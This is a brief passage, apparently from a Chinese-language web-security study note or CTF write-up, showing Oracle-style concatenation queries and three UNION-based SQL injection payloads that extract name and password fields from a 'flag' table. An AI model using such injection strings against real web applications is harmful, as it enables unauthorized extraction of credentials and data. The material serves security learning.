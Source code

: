 ![image-20210719105132391](websafe/image-20210719105132391.png)

```sql
\\查询数据
select id||name from test.demo;
select id||name from test.demo where rownum=1;
#payload：
?id=-1 union select 1,name||pwd,2,3 from flag where rownum=1 -- +
?id=-1 union select 1,concat(name,pwd),2,3 from flag where rownum=1 -- +
?id=-1 union select 1,cast(name||pwd as varchar(4000)),2,3 from (select name,pwd,rownum as LIMIT from (select * from flag)) where LIMIT=1 -- +
```

![image-20210719155254977](websafe/image-20210719155254977.png)
